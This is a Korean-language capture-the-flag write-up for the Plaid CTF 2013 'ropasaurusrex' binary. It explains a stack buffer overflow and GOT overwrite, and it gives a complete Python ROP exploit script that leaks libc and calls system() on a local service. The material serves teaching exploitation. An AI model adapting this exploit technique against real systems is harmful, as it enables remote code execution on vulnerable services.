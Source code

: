 # Ropasaurusrex
### Plaid CTF 2013
***Ropasaurusrex는 p CTF 2013의 문제입니다.***

ropasaurusrex를 처음 실행해 보면, 입력을 받은뒤  WIN이라는 글자와 함께 종료되는 모습을 볼 수 있습니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Main.PNG)

### Vuln Funtion
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Funciotn.PNG)

sub esp, 98 -> 0x98 만큼 버퍼 생성

lea eax, [ebp-buf] -> 0x88 부터 입력 버퍼

취약한 함수 = call sub_80483F4

buf의 크기는 총 0x88(136) + SFP = (140)인데, 입력은 0x100(256)만큼 받습니다.

└ read(fd, buf, 0x100)

즉 버퍼오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. read_plt, read_got
2. write_plt, write_got
3. pppr
4. dynamic_addr -> bss영역을 사용하지 않는 이유는 영역이 작아서 입니다.
5. read - system libc offset
  └ Offset을 구하는 이유는 주소가 가변적으로 바뀌어도 offset은 고정이기 때문에 이 offset에 base주소를 더해 주면, 원래 system주소가 나오기 때문입니다.
```
read - system을 하여 system의 offset을 구한다음 read_got의 addr를 얻어 구한 system offset을 빼면 원래의 system 주소가 나오게 됩니다.

가젯들을 구할 때에는 objdump -d, -h와 gdb를 이용하여 구하였습니다.

read - system을 하여 offset을 구할 때에는 gdb로 아무데나 b를 걸고 달린후 p system, p read를 이용하여 구해주시면 됩니다.

익스플로잇 순서는
```
1. 익스플로잇에 필요한 가젯들을 구합니다.
2. 구한 가젯들을 조합하여 페이로드를 작성합니다.
  
      └ write_plt에 read_got를 인자로 주어 로드된 read 주소를 얻어옵니다.

      └ 그 후 read_plt를 이용하여 dynamic섹션에 명령어를 받습니다.

      └ got overwrite를 이용하여 read_got를 구한 system주소를 씁니다.

      └ read_plt(system)에 dynamic섹션 영역을 인자로 주어 실행합니다.
```
###Got Overwrite?
Got Overwrite란 read, write함수 등 함수들은 plt주소와 got주소를 가지고 있는데,

plt란 외부 프로시저를 연결해주는 테이블 이라고 나와있습니다.

plt를 이용하여 다른 라이브러리에 있는 프로시저를 호출하여 사용하는 것이 가능합니다.

got는 plt가 참조하는 테이블이고, 프로시저들의 주소가 들어있습니다.

이런 plt와 got를 사용하는 이유는 프로그램을 조금 더 가볍게 하기 위해서 입니다.

원래 옛날에 코드를 컴파일 하면, 라이브러리가 프로그램 안에 들어가서 무거워 졌었는데, 지금은 이렇게 링크를 하여 외부 파일에서 함수를 불러와 프로그램이 가벼워 집니다.

이렇게 프로그램안에 모든 함수 주소를 넣는것을 Static link, 외부 파일에서 필요한 함수만 불러오도록 하는 것을 dynamic link라고 합니다.

간단하게 dynamic link 링크 방식은 plt -> got -> 실제 함수주소를 호출하게 됩니다.

[참고] https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

그럼 plt overwrite는 왜 없냐면 plt는 read only속성이기 때문에 overwrite하는게 불가능하기 때문입니다.

###소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
#!/usr/bin/python

from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 6666))

read_plt = 0x804832C
read_got = 0x804961C
write_plt = 0x804830C
write_got = 0x8049614
pppr = 0x80484b6

dynamic_addr = 0x8049530
read_system_libc = 0x9abe0

cmd = 'ls -al'

print "[+]Exploit!"
payload = ''
payload += 'A' * 140
#Get target write libc address
payload += p(write_plt)
payload += p(pppr)
payload += p(0x1) #stdout
payload += p(read_got)
payload += p(0x4)
#write in dynamic section
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0) #stdin
payload += p(dynamic_addr)
payload += p(len(cmd))
#got overwrite
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0)
payload += p(read_got)
payload += p(0x4)
#system call
payload += p(read_plt)
payload += p(0x41414141)
payload += p(dynamic_addr)

s.send(payload)

#libc distance calc
read_libc = up(s.recv(4))
system_addr = read_libc - read_system_libc
print "System addr [*]" + hex(system_addr)

s.send(cmd)
s.send(p(system_addr))

print s.recv(1024)
print "Finish!"

```
